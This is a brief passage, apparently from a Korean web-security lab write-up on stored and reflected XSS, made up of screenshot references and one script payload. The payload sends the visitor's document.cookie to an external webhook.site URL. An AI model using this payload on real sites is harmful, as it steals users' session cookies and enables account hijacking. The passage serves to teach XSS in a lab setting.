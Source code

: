 ![xss5 payload](/assets/web-screenshots/stored-reflected-xss/xss5_payload.png)

```html
<script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01"+document.cookie</script>
```

> **게시글 클릭 후 결과:**

![xss5 access](/assets/web-screenshots/stored-reflected-xss/xss5_access.png)
